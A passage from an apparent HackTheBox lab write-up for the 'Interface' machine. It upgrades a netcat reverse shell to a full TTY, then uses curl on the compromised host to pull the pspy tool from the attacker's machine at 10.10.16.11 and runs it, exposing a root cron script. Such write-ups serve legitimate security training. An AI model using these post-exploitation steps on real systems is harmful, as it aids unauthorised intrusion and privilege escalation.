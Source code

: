 To avoid inadvertently disconnecting nc, I got full TTY according the article [Full TTYs - HackTricks](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/full-ttys).

![Full TTY](full-tty.png)

## Privilege Escalation

Download pspy from https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy64 URL to kali machine, then upload it target machie.

In kali:

```console
root@kali:~/htb/Machines/Interface# curl -sL -o pspy https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy64

root@kali:~/htb/Machines/Interface# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.228.208 - - [29/Jul/2023 16:37:38] "GET /pspy HTTP/1.1" 200 -
```

In Target:

```console
www-data@interface:/tmp$ curl -s -o pspy 10.10.16.11/pspy
www-data@interface:/tmp$
```

Executing `pspy`:

```console
www-data@interface:/tmp$ chmod +x pspy
www-data@interface:/tmp$ ./pspy
pspy - version: v1.2.1 - Commit SHA: f9e6a1590a4312b9faa093d8dc84e19567977a6d


     ██▓███    ██████  ██▓███ ▓██   ██▓
    ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
    ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
    ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
    ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
    ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒
    ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░
    ░░       ░  ░  ░  ░░       ▒ ▒ ░░
                   ░           ░ ░
                               ░ ░

Config: Printing events (colored=true): processes=true | file-system-events=false ||| Scanning for processes every 100ms and on inotify events ||| Watching directories: [/usr /tmp /etc /home /var /opt] (recursive) | [] (non-recursive)
Draining file system events due to startup...
done
2023/07/29 07:40:29 CMD: UID=33    PID=20283  | ./pspy
(snip)
2023/07/29 07:42:01 CMD: UID=0     PID=20296  | /bin/bash /usr/local/sbin/cleancache.sh
2023/07/29 07:42:01 CMD: UID=0     PID=20295  | /bin/sh -c /usr/local/sbin/cleancache.sh
2023/07/29 07:42:01 CMD: UID=0     PID=20294  | /usr/sbin/CRON -f
2023/07/29 07:42:01 CMD: UID=0     PID=20299  | cut -d   -f1
2023/07/29 07:42:01 CMD: UID=0     PID=20298  | /bin/bash /usr/local/sbin/cleancache.sh
```